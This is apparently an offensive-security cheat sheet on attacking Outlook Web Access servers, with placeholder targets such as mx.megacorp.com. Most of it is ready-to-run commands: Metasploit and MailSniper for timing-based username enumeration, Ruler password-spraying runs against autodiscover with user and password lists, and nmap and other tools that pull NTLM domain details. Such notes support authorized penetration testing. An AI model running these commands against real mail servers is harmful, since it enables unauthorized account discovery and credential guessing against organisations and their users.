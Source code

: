 # OWA




## Enumerate Users

* [https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/)
* [https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen](https://www.intruder.io/blog/user-enumeration-in-microsoft-products-an-incident-waiting-to-happen)

| Authentication Request                   | Kerberos Process                                     | Response Time |
|------------------------------------------|------------------------------------------------------|---------------|
| Non-existing realm                       | KDC searches for realm                               | 2-3 seconds   |
| Realm exists but username does not exist | Pre-authentication ticket created to verify username | 5-60 seconds  |
| Realm and username exists                | Pre-authentication ticket created to verify password | < 2 seconds   |

> Responses in different environments may have different response times but the pattern in the timing response behavior still exist. ([ref](http://h.foofus.net/?p=784))



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set RHOST mx.megacorp.local
msf > set USER_FILE owa-users.txt
msf > set PASSWORD dummyPassword
msf > set THREADS 15
msf > run
```



### MailSniper

```
PS > Invoke-UsernameHarvestOWA -ExchHostname mx.megacorp.com -Domain MEGACORP -UserList .\owa-users.txt -Threads 25 -OutFile owa-valid-users.txt
```




## Password Spray



### Ruler

* [https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials)

Autodiscover URL implicit:

```
$ ./ruler -k -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-blood.out
```

Autodiscover URL explicit:

```
$ ./ruler -k --nocache --url https://autodiscover.megacorp.com/autodiscover/autodiscover.xml -d megacorp.com brute --users users.txt --passwords passwords.txt --delay 35 --attempts 3 --verbose | tee -a ruler-all.out
```

Notes:

* In users.txt there's only "username" on a line, not "DOMAIN\username".
* Errors like `ERROR: 04:27:43 brute.go:193: An error occured in connection - Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: Get https://autodiscover.megacorp.com/autodiscover/autodiscover.xml: net/http: request canceled` do **not** affect the current password probe.




## Parse NTLM

* [https://github.com/nyxgeek/ntlmscan](https://github.com/nyxgeek/ntlmscan)
* [https://gist.github.com/aseering/829a2270b72345a1dc42](https://gist.github.com/aseering/829a2270b72345a1dc42)



### Nmap

```
$ sudo nmap -sV --script http-ntlm-info --script-args http-ntlm-info.root=/ews/ -p443 mx.megacorp.com
```



### MSF

```
msf > use auxiliary/scanner/http/owa_login
msf > set AUTH_TIME false
msf > set RHOST mx.megacorp.local
msf > set USERNAME dummyUser
msf > set PASSWORD dummyPassword
msf > run
```



### MailSniper

```
PS > Invoke-DomainHarvestOWA -ExchHostname mx.megacorp.com
```



### get_ad_domain.zip

```
$ python get_ad_domain.zip -m owa mx.megacorp.com
```
